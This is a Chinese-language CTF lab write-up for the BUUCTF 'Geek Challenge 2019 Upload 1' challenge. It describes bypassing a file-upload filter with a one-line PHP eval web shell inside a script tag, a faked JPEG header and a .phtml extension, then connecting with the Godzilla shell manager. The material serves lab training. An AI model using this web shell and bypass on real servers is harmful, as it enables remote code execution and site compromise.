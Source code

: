 ```yaml
---
{"dg-publish":true,"title":"BUU_[极客大挑战 2019]Upload 1","dg-path":"安全/靶场/BUU_[极客大挑战 2019]Upload 1.md","permalink":"/安全/靶场/BUU_[极客大挑战 2019]Upload 1/","dgPassFrontmatter":true}
---
```


# 前期测试

经过测试
![Pasted image 20240806201017.png](/img/user/picture/Pasted%20image%2020240806201017.png)
此题
+ 要上传文件类型为图片
+ 是通过文件头标志来识别文件
+ 文件中不能出现`<?`
+ 文件名后缀不能出现`php`


# 简单攻击流程

因为不能出现`<?`，所以我们上传文件内容可以考虑采用js+ php方案
```php
<script language='php'>@eval($_POST["pass"]);</script>
```

记得添加上文件头标志`FFD8FF`
![Pasted image 20240806201425.png](/img/user/picture/Pasted%20image%2020240806201425.png)


准备上传
![Pasted image 20240806201513.png](/img/user/picture/Pasted%20image%2020240806201513.png)

抓包，修改文件后缀为`.phtml`
![Pasted image 20240806201633.png](/img/user/picture/Pasted%20image%2020240806201633.png)
![Pasted image 20240806201647.png](/img/user/picture/Pasted%20image%2020240806201647.png)

常见可解析为php的文件后缀
- **.php** - 这是最常见的PHP文件后缀。
- **.php3** - 早期版本的PHP文件后缀。
- **.php4** - 用于PHP 4版本的文件后缀。
- **.php5** - 用于PHP 5版本的文件后缀。
- **.phtml** - 常用于HTML和PHP代码混合的文件后缀。
- **.phps** - 通常用于显示PHP源代码的高亮显示。


哥斯拉测试连接通过
![Pasted image 20240806201818.png](/img/user/picture/Pasted%20image%2020240806201818.png)

获得flag
![Pasted image 20240806201847.png](/img/user/picture/Pasted%20image%2020240806201847.png)
